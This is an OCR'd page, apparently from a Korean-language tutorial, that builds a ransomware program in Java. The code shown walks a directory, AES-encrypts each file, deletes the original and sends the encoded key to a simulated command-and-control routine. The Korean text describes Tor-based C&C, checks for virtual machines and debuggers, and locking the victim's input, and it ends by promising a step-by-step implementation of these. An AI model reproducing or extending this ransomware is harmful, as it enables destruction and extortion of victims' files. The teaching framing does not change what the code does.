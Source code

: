 ```java
            System.out.println("Generated ID: " + id);

            // 3. 암호화 수행
            String directoryPath = "./test_directory"; // 테스트할 디렉토리 경로
            List<File> files = findFiles(directoryPath);

            for (File file : files) {
                File encryptedFile = new File(file.getAbsolutePath() + ".encrypted");
                encryptFile(file, encryptedFile, secretKey);
                file.delete(); // 원본 파일 삭제
                System.out.println("Encrypted file: " + encryptedFile.getAbsolutePath());
            }

            // 4. 제어 서버와 통신 (시뮬레이션)
            String encodedKey = Base64.getEncoder().encodeToString(secretKey.getEncoded());
            communicateWithServer(id, encodedKey);

        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

### 주요 함수

1. SHA-256 해시 적용:  
   - `hashWithSHA256` 메서드를 통해 고유한 ID를 생성하며, 이를 제어 서버와 통신 시 사용한다.  

2. 파일 암호화:  
   - `encryptFile` 메서드로 모든 파일을 암호화하며, 결과 파일에 `.encrypted` 확장자를 추가한다.  
   - 원본 파일은 삭제한다.  

3. C&C 서버와 통신:  
   - `communicateWithServer` 메서드에서 실제 서버 통신 대신 단순히 데이터를 출력한다.  
   - 실제 랜섬웨어는 Tor 네트워크를 통해 서버와 통신해 익명성을 유지합니다.  

4. 실행 환경 체크:  
   - 현재 시스템의 운영 체제와 자바 버전을 출력한다.가상머신, 디버거, 루팅여부등을 탐지하는 로직을 추가할 수 있다.  

5.*UI/UX 기만:  
   - 사용자에게 추가 메시지를 출력하거나, GUI를 통해 기만적인 메시지를 표시할 수 있다.  이 예제에서는 간단히 텍스트로 구현하였지만, 실제로 마우스나 키보드 입력을 막는 등의 방식으로 사용자를 무력화 시켜 기만할 수 있다.  

---

### 알아가면 좋은 것

- 암호화 및 해시: AES와 SHA-256 사용법 익히기.  
- 파일 처리: 디렉토리 내 파일 탐색 및 처리.  
- 보안 프로토콜 이해: C&C 서버와의 통신 방식.  

# 빈 로직들 세부 구현  
이어서, 앞서 말한 기능들을 어떻게 구현하면 되는지에 대해 알아보자.  
랜섬웨어에서 Tor 네트워크 통신, 실행 환경 체크, UI/UX 기만 기능을 Java로 구현하는 방법을 단계별로 설명하겠다.  
